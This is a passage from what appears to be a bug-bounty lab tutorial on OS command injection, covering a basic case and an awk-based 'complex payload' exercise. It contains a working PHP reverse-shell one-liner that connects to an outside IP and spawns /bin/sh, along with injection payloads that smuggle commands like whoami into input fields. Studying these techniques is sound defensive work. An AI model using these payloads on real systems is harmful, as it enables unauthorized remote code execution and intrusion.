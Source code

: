 {% code overflow="wrap" %}
```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ci_basic_2.png" alt=""><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### Complex Payload

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The application we need to test tracks the fleet vehicle's coordinates and calculates the distance between its current position and its destination (Figure 3).

<figure><img src="../../../.gitbook/assets/web_ci_chall_lab_1.png" alt=""><figcaption><p>Figure 3: Undestanding the application's functionality.</p></figcaption></figure>

We have two fields that are directly inputted within the executed command. We can start by trying to manipulate the second field first (Figure 4).

```bash
# original command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}'

# our goal command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#

# the payload
222)^2))}';whoami;#

# the final command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#)^2))}'
```
